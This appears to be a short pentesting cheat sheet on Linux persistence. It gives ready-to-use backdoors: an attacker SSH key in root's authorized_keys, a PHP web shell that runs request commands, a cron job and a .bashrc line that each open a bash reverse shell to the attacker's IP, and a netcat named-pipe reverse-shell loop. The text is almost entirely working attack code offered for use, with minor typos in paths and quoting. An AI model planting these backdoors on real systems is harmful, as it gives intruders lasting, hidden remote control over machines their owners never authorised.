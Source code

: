 [back](/README.md)
### ssh backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.

1. generate ssh-keygen
```
ssh-keygen
```
2. go to /root.ssh and leave our public key there with name `authorized_keys`

---
### php backdoor

1. put php code inside /var/www/html as file shell.php
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

2. go to link http://[ip[/shell.php and execute command:

```
http://<ip>/shell.php?cmd=id
```

---
### cron job backdoor

1. create reverse_shell.sh
```
cat > reverse_shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```
2. add reverse_shell.sh to execute every minute
```
echo "* * * * * root /path/to/reverse_shell.sh >> /etc/crontab
```

---
### bashrc backdoor

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' >> ~/.bashrc
```
every time user logs in, reverse_shell gets executed

---
Reverse Shell Bash Loop

while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done